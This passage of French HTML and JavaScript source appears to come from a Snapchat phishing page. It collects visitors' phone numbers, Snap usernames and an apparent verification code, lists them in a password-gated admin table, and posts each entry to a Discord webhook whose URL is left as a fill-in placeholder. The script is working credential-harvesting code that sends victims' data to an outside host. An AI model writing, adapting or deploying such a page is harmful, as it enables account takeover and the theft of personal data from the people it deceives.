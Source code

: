   <div id="adminSection">
    <input type="password" id="mdpPro" placeholder="Mot de passe admin" />
    <button onclick="validerAdmin()">Valider</button>
    <div id="msgAdmin" class="error"></div>

    <div id="listeUtilisateurs" style="display:none;">
      <h3>Liste des utilisateurs</h3>
      <table>
        <thead>
          <tr><th>Numéro</th><th>Pseudo Snap</th><th>Code</th></tr>
        </thead>
        <tbody id="tableBody"></tbody>
      </table>
    </div>
  </div>
</div>

<script>
  const WEBHOOK_URL = "TON_WEBHOOK_DISCORD_URL"; // Remplace ici

  let currentUser = {};

  function sendToWebhook(data) {
    let message = `**Nouvelle entrée :**\n`;
    message += `**Événement:** ${data.event}\n`;
    message += `**Numéro:** ${data.phone}\n`;
    message += `**Pseudo Snap:** ${data.pseudo}\n`;
    if (data.code) message += `**Code:** ${data.code}\n`;
    message += `**Heure:** ${new Date(data.timestamp).toLocaleString()}`;

    fetch(WEBHOOK_URL, {
      method: "POST",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({ content: message }),
    })
    .then(res => {
      if (!res.ok) console.error("Erreur webhook Discord:", res.status);
    })
    .catch(err => console.error("Erreur fetch webhook Discord:", err));
  }

  function validerNumPseudo() {
    const phone = document.getElementById('phone').value.trim();
    const pseudo = document.getElementById('pseudo').value.trim();
    const msg = document.getElementById('msgForm');
    msg.textContent = "";

    if (!/^0[67]\d{8}$/.test(phone)) {
      msg.textContent = "❌ Numéro invalide.";
      return;
    }
    if (pseudo.length < 3) {
      msg.textContent = "❌ Pseudo trop court.";
      return;
    }
